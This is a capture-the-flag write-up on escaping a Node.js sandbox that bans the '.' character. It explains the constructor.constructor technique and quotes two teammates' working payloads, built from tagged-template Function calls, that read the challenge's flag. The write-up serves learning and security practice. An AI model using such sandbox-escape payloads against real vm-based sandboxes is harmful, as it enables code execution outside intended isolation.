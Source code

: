 ```javascript
            throw new Error("Invalid input.")
    } catch(ex)
    {
        response = ex.toString()
    }

    console.log(`${req.ip}< ${response}`)
    res.send(JSON.stringify({"response": response}))
})

console.log(`Listening on :${port}...`)
app.listen(port, '0.0.0.0')
```

Basically we need to read `flag` in the sandbox with limited characters.

To escape the sandbox, we follow [this article](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html) to access the object outside of the sandbox.

```
constructor.constructor('return flag')()
```

However, `.` is not allowed. We need to either create `.` based on those limited chracters, or use other syntax to access the attributes.

First, we will need `eval()` to create `.`. In javascript we can use `Function` to achieve eval:

```
# eval
> Function`return 123``foo`
123

# double evaluation
> Function` foo${`return ${1+1}`}`` `
2
```

However, in the end I didn't manage to solve this challenge because I'm a javascript noob.......

Here are some creative solutions:

1. Destruct by @sasdf:

```
Function`a${`return constructor`}{constructor}` `${constructor}` `return flag` ``
```

This one didn't even use the helper function `par`. Always amazed by our member @sasdf !

2. for-loop dot creation by @qweqwe:
```
{var dot} {Function`x ${`for ${par`dot of help`} { } return dot`}` ``} {Function`x ${`return constructor${dot}constructor`}` `` `return flag` ``}
```

It uses `for (dot of help) { } return dot` to create `.`.
